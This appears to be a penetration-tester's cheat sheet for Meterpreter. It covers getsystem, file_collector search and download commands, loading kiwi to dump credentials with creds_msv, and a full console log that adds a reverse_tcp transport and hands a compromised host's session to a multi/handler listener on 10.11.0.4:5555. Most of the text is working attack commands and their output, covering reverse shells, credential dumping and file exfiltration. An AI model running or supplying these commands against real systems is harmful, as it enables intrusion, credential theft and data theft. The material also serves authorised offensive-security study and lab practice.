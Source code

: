 `getsystem`: [https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/](https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/)

General usage

- file_collector (search):
    
    ```bash
    meterpreter > run file_collector -d [Path] -f [format] -r -o [file_name] # -r = recursive  -o = output on file
    ```
    
- file_collector (download):
    
    ```bash
    meterpreter > run file_collector -i [file_name] -l [local_path_where_download]
    ```
    
- `load powershell`
- `load kiwi`
[mimikatz](mimikatz.md) version for meterpreter: creds_msv dump all password

### Change transport

```shell
meterpreter > transport add -t reverse_tcp -l 10.11.0.4 -p 5555
[*] Adding new transport ...
[+] Successfully added reverse_tcp transport.
meterpreter > transport list
Session Expiry : @ 2019-10-09 17:01:44
ID Curr URL
-- ---- ---
1 * <http://10.11.0.4:4444/gFojKgv3qFbA1MHVmlpPUgxwS_f66dxGRl8ZqbZZTkyCuJFjeAaDK/>
2 tcp://10.11.0.4:5555
meterpreter > background
[*] Backgrounding session 5...
msf5 exploit(windows/http/syncbreeze_bof) > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.11.0.4
LHOST => 10.11.0.4
msf5 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 10.11.0.4:5555
msf5 exploit(multi/handler) > sessions -i 5
[*] Starting interaction with 5...
meterpreter > transport next
[*] Changing to next transport ...
[*] Sending stage (179779 bytes) to 10.11.0.22
[+] Successfully changed to the next transport, killing current session.
[*] 10.11.0.22 - Meterpreter session 5 closed. Reason: User exit
msf5 exploit(multi/handler) >
[*] Meterpreter session 6 opened (10.11.0.4:5555 -> 10.11.0.22:50357)
msf5 exploit(multi/handler) > sessions -i 6
[*] Starting interaction with 6...
meterpreter >
```
